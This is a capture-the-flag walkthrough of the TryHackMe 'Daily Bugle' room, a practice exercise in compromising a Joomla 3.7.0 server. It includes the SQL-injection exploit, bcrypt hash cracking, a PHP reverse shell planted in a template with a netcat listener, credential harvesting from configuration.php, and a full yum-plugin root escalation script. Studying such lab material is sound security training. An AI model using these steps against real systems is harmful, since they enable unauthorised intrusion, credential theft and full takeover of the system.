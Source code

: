 # [Daily Bugle](https://tryhackme.com/room/dailybugle)

## Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum

# Deploy

### Access the web server, who robbed the bank?

1. Enumerate all services running on the target machine with `nmap`

![SCREEN01](https://github.com/user-attachments/assets/0f367f97-c5e1-4f9b-b784-09dea498db3d)

2. Go to the `http://IP/`, the headline article states that **spiderman** robbed the bank

![SCREEN02](https://github.com/user-attachments/assets/1f22d8cb-5efe-47b1-abd9-6e8b63c86ee0)

---

### Obtain user and root

## Hack into the machine and obtain the root user's credentials

### What is the Joomla version?

_Hint: I wonder if this version of Joomla is vulnerable..._

1. Use `joomscan` to identify the exact Joomla version:
   - The version is **3.7.0**

```bash
git clone https://github.com/OWASP/joomscan.git
cd joomscan
chmod +x joomscan.pl
perl joomscan.pl --url http://IP
```

![SCREEN03](https://github.com/user-attachments/assets/60d0324c-5725-4ffc-b602-62e460c9c3bf)

---

### What is Jonah's cracked password?

_Hint: SQLi & JohnTheRipper_

1. Use the [Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla) python script

```bash
python3 joomblah.py http://IP/
```

![SCREEN04](https://github.com/user-attachments/assets/2be7bfda-e461-4c8e-b351-0382301eba6f)

2. Copy the password hash, and crack it with John the Ripper
   - The password is **spiderman123**

```bash
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > jonah_hash.txt
john --format=bcrypt --wordlist=/root/Tools/wordlists/rockyou.txt jonah_hash.txt
```

![SCREEN05](https://github.com/user-attachments/assets/7f768e70-f9f5-438c-9a68-8d6741014547)

---

### What is the user flag?

1. Perform directory enumeration to identify the admin login page

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,js
```

![SCREEN06](https://github.com/user-attachments/assets/589c0875-eaff-4a3d-8502-a7442b63bbf8)

2. Log in to the Joomla administrator panel at `http://IP/administrator/index.php` with `jonah:spiderman123`

3. Paste [PHP Reverse Shell payload](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) in template. For example: `http://10.10.48.111/administrator/index.php?option=com_templates&view=template&id=503&file=L2luZGV4LnBocA`

4. Deploy a [PHP reverse shell](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) through the template editor at `http://IP/administrator/index.php?option=com_templates&view=template&id=503&file=L2luZGV4LnBocA`

5. Set up a netcat listener on your attacking machine and trigger the reverse shell by visiting the modified template page in the browser

```bash
nc -lvnp 4444
```

![SCREEN07](https://github.com/user-attachments/assets/ee0eeda4-1056-406f-ad8a-bc93ab58696b)

5. From the initial shell, examine the website configuration to find credentials

```bash
cd /var/www/html
cat configuration.php
```

![SCREEN08](https://github.com/user-attachments/assets/6c15cc2b-5c3f-437a-84ff-460c60a48ded)

6. Use the discovered password to switch to the `jjameson` user

```bash
su jjameson

# Upgrade shell to interactive PTY
python -c 'import pty; pty.spawn("/bin/bash")'
```

![SCREEN09](https://github.com/user-attachments/assets/dbfe8e90-debf-4297-b9ac-6413fef346f2)

7. Retrieve the user flag

```bash
cat /home/jjameson/user.txt
```

![SCREEN10](https://github.com/user-attachments/assets/165ae883-e7f1-4b22-a0cc-dcfa842490a1)

---

### What is the root flag?

1. Check for privilege escalation vectors

```bash
sudo -l
```

![SCREEN11](https://github.com/user-attachments/assets/e41b4c8d-5e61-4674-b20c-6dfc87f93bea)

2. Exploit the `yum` plugin functionality to gain root access using a method from [GTFOBins](https://gtfobins.github.io/gtfobins/yum/)

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y

whoami
```

![SCREEN12](https://github.com/user-attachments/assets/f21ac23e-00ef-4183-a532-7121cc17cabf)

3. Retrieve the root flag

```bash
cat /root/root.txt
```

![SCREEN13](https://github.com/user-attachments/assets/420cc685-e8ea-4178-b96e-694e367cce59)
